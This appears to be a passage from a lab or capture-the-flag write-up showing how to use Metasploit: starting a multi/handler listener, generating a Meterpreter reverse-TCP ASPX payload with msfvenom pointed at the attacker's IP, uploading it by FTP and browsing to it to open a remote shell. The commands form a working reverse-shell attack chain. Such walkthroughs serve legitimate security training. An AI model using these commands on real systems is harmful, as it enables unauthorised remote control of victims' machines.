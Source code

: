## load msfconsole/listener
    msfdb run # first time run and starts postgress server
    msfconsole # normal way without postgress server

![](https://paper-attachments.dropbox.com/s_9B8ABAF92E8BD4C79A9AECC7328DE9A6C794C02AEC511B6D2489E66CA14CED53_1556947866994_image.png)

    use exploit/multi/handler
    show options

![](https://paper-attachments.dropbox.com/s_9B8ABAF92E8BD4C79A9AECC7328DE9A6C794C02AEC511B6D2489E66CA14CED53_1556947895731_image.png)

set payload:

    set payload windows/meterpreter/reverse_tcp # what was chosen on msfvenom
    show options

![](https://paper-attachments.dropbox.com/s_9B8ABAF92E8BD4C79A9AECC7328DE9A6C794C02AEC511B6D2489E66CA14CED53_1556947966334_image.png)

set LHOST to local ip address

    set LHOST tun0 # or adapter name
    run

![](https://paper-attachments.dropbox.com/s_9B8ABAF92E8BD4C79A9AECC7328DE9A6C794C02AEC511B6D2489E66CA14CED53_1556948030242_image.png)

## recreating payload with host/port
when the payload was created without the LHOST and LPORT

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.17 LPORT=4444 -f aspx -o ippsec.aspx

![](https://paper-attachments.dropbox.com/s_9B8ABAF92E8BD4C79A9AECC7328DE9A6C794C02AEC511B6D2489E66CA14CED53_1556948209058_image.png)

re-upload to ftp server

    put ippsec.aspx

![](https://paper-attachments.dropbox.com/s_9B8ABAF92E8BD4C79A9AECC7328DE9A6C794C02AEC511B6D2489E66CA14CED53_1556948256812_image.png)

## navigate to payload

![](https://paper-attachments.dropbox.com/s_9B8ABAF92E8BD4C79A9AECC7328DE9A6C794C02AEC511B6D2489E66CA14CED53_1556948318348_image.png)

response:

![](https://paper-attachments.dropbox.com/s_9B8ABAF92E8BD4C79A9AECC7328DE9A6C794C02AEC511B6D2489E66CA14CED53_1556948345370_image.png)

*interpreter shell connection was created.*

## Metasploit interaction with shell
To interact with shell

    sessions -i 1
